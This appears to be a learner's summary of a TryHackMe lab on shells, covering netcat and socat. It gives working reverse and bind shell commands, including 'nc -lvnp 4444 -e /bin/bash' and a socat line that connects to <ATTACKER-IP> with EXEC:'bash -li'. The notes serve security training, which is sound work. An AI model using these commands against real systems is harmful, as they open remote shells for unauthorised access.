 # TryHackMe: What The Shell Room Summary

Room Link: 

[What the Shell?](https://tryhackme.com/room/introtoshells)

## **Common Shell Handling Tools**

When working with **reverse shells** and **bind shells**, we typically use the following tools:

---

### **1. Netcat (The Classic Swiss Army Knife)**

- **Installed by default** on most Linux systems.
- **Simple but unstable** for shells.
- Used for:
    - **Reverse Shells** (victim connects to you)
    - **Bind Shells** (you connect to victim)

**Basic Examples**

**Reverse Shell Listener (Attacker)**

```bash
nc -lvnp 4444
```

**Bind Shell (Victim)**

```bash
nc -lvnp 4444 -e /bin/bash  # Linux
nc -lvnp 4444 -e cmd.exe    # Windows
```

⚠️ **Problem:** Netcat shells are **unstable** (no tab complete, dies easily).

---

### **2. Socat (Netcat on Steroids)**

- **More stable than Netcat** but **not installed by default**.
- **Supports encryption, file transfers, and better TTY handling**.

**Basic Examples**

**Reverse Shell Listener (Attacker)**

```bash
socat TCP-L:4444 -
```

**Reverse Shell (Victim - Linux)**

```bash
socat TCP:<ATTACKER-IP>:4444 EXEC:"bash -li"
```
